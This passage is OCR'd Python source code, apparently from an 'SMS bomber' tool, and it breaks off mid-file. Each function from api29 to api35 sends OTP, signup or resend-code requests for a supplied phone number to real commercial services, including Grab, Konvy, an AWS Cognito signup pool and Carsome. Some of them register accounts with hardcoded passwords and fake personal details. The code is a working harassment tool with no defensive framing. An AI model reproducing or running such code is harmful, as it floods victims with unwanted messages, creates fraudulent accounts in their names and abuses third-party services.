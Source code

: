     

def api29(phone):

    post("https://partner-api.grab.com/grabid/v1/oauth2/otp", json={"client_id":"4ddf78ade8324462988fec5bfc5874c2","transaction_ctx":"null","country_code":"TH","method":"SMS","num_digits":"6","scope":"openid profile.read foodweb.order foodweb.rewards foodweb.get_enterprise_profile","phone_number": phone},headers={})

    

def api30(phone):

    post("https://www.konvy.com/ajax/system.php?type=reg&action=get_phone_code", data={"phone": phone})

    

def api31(phone):

    post("https://ecomapi.eveandboy.com/v10/user/signup/phone", data={"phone": phone,"password":"123456789Az"})

    

def api32(phone):

    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.SignUp","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/signup/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}","Password":"098098Az","UserAttributes":[{"Name":"name","Value":"Dbdh"},{"Name":"birthdate","Value":"2005-01-01"},{"Name":"gender","Value":"Male"},{"Name":"phone_number","Value":f"+66{phone[1:]}"},{"Name":"custom:phone_country_code","Value":"+66"},{"Name":"custom:is_agreement","Value":"true"},{"Name":"custom:allow_consent","Value":"true"},{"Name":"custom:allow_person_info","Value":"true"}],"ValidationData":[]})

    post("https://cognito-idp.ap-southeast-1.amazonaws.com/",headers={"cache-control": "max-age=0","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36","content-type": "application/x-amz-json-1.1","x-amz-target": "AWSCognitoIdentityProviderService.ResendConfirmationCode","x-amz-user-agent": "aws-amplify/0.1.x js","referer": "https://www.bugaboo.tv/members/resetpass/phone"},json={"ClientId":"6g47av6ddfcvi06v4l186c16d6","Username":f"+66{phone[1:]}"})

    

def api33(phone):

    get(f"https://laopun.com/send-sms?id={phone}&otp=5153",headers=header)

    

def api34(phone):

    post("https://jdbaa.com/api/otp-not-captcha", data={"phone_number":phone})

    

def api35(phone):

    post("https://www.carsome.co.th/website/login/sendSMS", headers=header, json={"username":phone,"optType":0}).json()

    

def api36(phone):
